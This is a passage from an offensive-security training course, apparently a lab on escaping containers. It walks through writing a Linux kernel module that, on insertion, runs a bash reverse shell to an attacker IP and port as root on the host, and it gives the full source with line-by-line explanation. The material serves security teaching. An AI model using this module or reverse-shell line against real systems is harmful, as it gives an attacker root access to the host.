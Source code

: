 > Listing 28 - Installing Dependencies

Once installed, we'll create a directory to hold our exploit and name it **/exp**. We'll **cd** into that directory and create the **reverse-shell.c** file, which will contain the code for our kernel module reverse shell.

```
root@compiler:/# mkdir exp

root@compiler:/# cd exp

root@compiler:/exp# nano reverse-shell.c

root@compiler:/exp# cat -n reverse-shell.c
     1  #include<linux/module.h>
     2  #include<linux/kmod.h>
     3
     4  MODULE_LICENSE("GPL");
     5
     6  static char command[] = "bash -i >& /dev/tcp/192.168.49.51/4444 0>&1";
     7
     8  static int start_listener(void){
     9          char *argv[] = {"/bin/bash", "-c", command, NULL};
    10          static char *env[] = {"HOME=/", NULL};
    11          return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
    12  }
    13
    14  static void kill_listener(void){
    15          printk(KERN_INFO "Exiting\n");
    16          return;
    17  }
    18
    19  module_init(start_listener);
    20  module_exit(kill_listener);
```

> Listing 29 - Creating Reverse Shell Kernel Module

The code starts by importing the required libraries on the first two lines. Next, we need to specify the license or the _compiler_ will throw an error. On line 6, we'll specify the command we want to run. In this command we'll use a common _bash reverse shell_, which points back to our Kali IP on port 4444.

Next, we need to define how the module should initialize and exit. We'll start with the initialization by creating a function called _start_listener_ on lines 8-12. This function will create an _argument vector_ with the command we want to run, set up the _environmental variables_ required for the command to work, and run it through the _call_usermodehelper_[1](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_1093-1) function. We want our reverse shell to run as the _root_ user on the host as a user mode application and the _call_usermodehelper_ function will do that for us. On line 19, we'll indicate that we want _start_listener_ as the function to be called at insertion time by calling the _module_init_[2](https://portal.offsec.com/learning-paths/offensive-cloud-foundations-167536/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_1093-2) macro.

